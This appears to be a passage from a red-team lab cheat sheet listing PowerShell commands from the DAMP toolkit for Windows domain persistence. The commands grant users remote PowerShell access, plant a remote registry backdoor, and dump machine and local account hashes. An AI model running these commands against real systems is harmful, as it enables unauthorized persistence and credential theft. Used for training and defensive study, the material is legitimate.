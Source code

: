 ```powershell
Set-RemotePSRemoting -UserName userX -Verbose
```

### <span style="color:#F1C232">2. Now we can execute **ScriptBlock** commands through **Invoke-Command**</span>

```powershell
Invoke-Command -ScriptBlock {whoami} -ComputerName <computer>
```

### <span style="color:#F1C232">3. On remote machine for userX without credentials</span>
 
```powershell
Set-RemotePSRemoting -UserName userX -ComputerName <computer> -Verbose
```

### <span style="color:#F1C232">4. On remote machine, remove the permissions</span>
 
```powershell
Set-RemotePSRemoting -UserName userX -ComputerName <computer> -Remove
```

## <span style="color:lightgreen">Add-RemoteRegBackdoor</span>

### <span style="color:#F1C232">1. Using DAMP, with admin privs on remote machine</span>
 
```powershell
Add-RemoteRegBackdoor -ComputerName <computer> -Trustee user1 -Verbose
```

## <span style="color:lightgreen">RemoteHashRetrieval</span>

### <span style="color:#F1C232">2. As student1, retrieve machine account hash</span>
 
```powershell
Get-RemoteMachineAccountHash -ComputerName <computer> -Verbose
```

> **If errors, replace $IV by $InitV in the script**
{: .prompt-warning }

### <span style="color:#F1C232">3 .Retrieve local account hash</span>
 
```powershell
Get-RemoteLocalAccountHash -ComputerName <computer> -Verbose
```
